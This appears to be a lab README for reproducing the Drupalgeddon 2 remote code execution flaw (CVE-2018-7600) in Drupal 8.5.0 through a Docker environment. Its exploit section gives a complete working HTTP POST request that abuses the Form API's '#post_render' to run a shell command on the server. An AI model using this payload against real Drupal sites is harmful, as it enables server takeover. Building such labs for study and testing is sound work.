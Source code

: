 # Drupal Drupalgeddon 2 Remote Code Execution Vulnerability (CVE-2018-7600)

[中文版本(Chinese version)](README.zh-cn.md)


Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations including the Form API.

# References:

- https://research.checkpoint.com/uncovering-drupalgeddon-2/


## Vulnerable environment

Run the following command to start a vulnerable Drupal 8.5.0 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see the drupal installation page. Complete the drupal installation using the "standard" profile. Because there is no mysql environment, you should select sqlite database when installing. Once the installation is complete you are ready to start exploiting it.

## Exploit

Referring to [a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py), we can send the following request to drupal:

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

Upon successful execution of the code, the id command is executed:

![](1.png)